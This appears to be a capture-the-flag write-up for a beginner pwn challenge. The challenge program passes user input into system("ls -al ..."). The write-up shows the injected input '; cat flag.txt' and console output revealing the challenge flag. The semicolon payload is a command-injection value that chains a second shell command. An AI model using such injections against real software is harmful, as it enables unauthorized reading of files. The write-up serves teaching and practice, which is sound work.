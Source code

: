 > # Pwn - Injection
> > Pwn - 100pts
>
> I made this program so that I could `ls -al` the files on my server, but not view the contents of them. After all, I would not want anyone to view the flag except for me...

## Writeup
The program executes `system("ls -al <our_input>")`, with `<our_input>` being the input we supply.

We can execute an arbitrary command if the first character of our input is `;`, e.g., `; cat flag.txt`. The program will then execute `system("ls -al; cat flag.txt")`, which will first run the `ls -al` command, and then `cat flag.txt`.

```console
What do you want to 'ls'?
; cat flag.txt
total 64
drwxr-xr-x 2 loevland loevland  4096 Feb  2 15:01 .
drwxr-xr-x 4 loevland loevland  4096 Feb  1 00:53 ..
-rw-r--r-- 1 loevland loevland   261 Feb  1 00:49 Dockerfile
-rw-r--r-- 1 loevland loevland    50 Jan  1 14:17 Makefile
-rw-r--r-- 1 loevland loevland    23 Feb  1 00:49 flag.txt
-rwxr-xr-x 1 loevland loevland 16672 Feb  1 00:49 vuln
-rw-r--r-- 1 loevland loevland   907 Feb  1 00:49 vuln.c
-rwxr-xr-x 1 loevland loevland 18648 Jan  1 14:17 ynetd
TD{pwn3d_by_1nj3c7i0n}
```